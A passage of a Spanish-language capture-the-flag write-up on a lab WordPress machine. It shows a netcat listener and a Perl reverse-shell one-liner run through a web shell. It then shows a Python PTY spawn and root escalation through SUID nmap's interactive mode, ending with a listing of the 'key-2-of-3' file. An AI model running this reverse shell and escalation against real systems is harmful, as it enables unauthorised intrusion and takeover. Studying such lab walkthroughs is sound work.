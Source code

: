 /usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

ls -liath /usr/local/bin/nmap
34835 -rwsr-xr-x 1 root root 493K Nov 13 2015 /usr/local/bin/nmap

</pre>
Ejecutamos una reverse shell, en nuestra máquina Kali ponemos a escuchar un netcat por el puerto 8080:
<pre>root@kali:/tmp# nc -vlp 8080
listening on [any] 8080 ...</pre>
Desde la maquina victima, vía la web shell:
<pre>perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.31.255.129:8080");STDIN-&gt;fdopen($c,r);$~-&gt;fdopen($c,w);system$_ while&lt;&gt;;'</pre>
Ya tenemos una sesión abierta directamente desde nuestro kali:
<pre>root@kali:/tmp# nc -vlp 8080
listening on [any] 8080 ...

172.31.255.128: inverse host lookup failed: Unknown host
connect to [172.31.255.129] from (UNKNOWN) [172.31.255.128] 37278

ls
index.php
shell.php
twentyfifteen
twentyfourteen
twentythirteen</pre>
Abrimos una shell en python:
<pre>python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/themes$</pre>
Probamos de ejecutar nmap en modo interactivo y abrimos una shell:
<pre>daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/themes$ /usr/local/bin/nmap --interactive
&lt;pps/wordpress/htdocs/wp-content/themes$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h &lt;enter&gt; for help
nmap&gt; !sh
!sh
</pre>
Bingo! ya tenemos acceso root:
<pre># id
id
uid=1(daemon) gid=1(daemon) <strong>euid=0(root) groups=0(root)</strong>,1(daemon)
#</pre>
En la home del usuario robot encontramos la key 2 de 3:
<pre>cd /home/robot
# ls
ls
key-2-of-3.txt password.raw-md5
# ls -liath
ls -liath
total 16K
136109 -rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5
136108 -r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
130326 drwxr-xr-x 2 root root 4.0K Nov 13 2015 .
22175 drwxr-xr-x 3 root root 4.0K Nov 13 2015 ..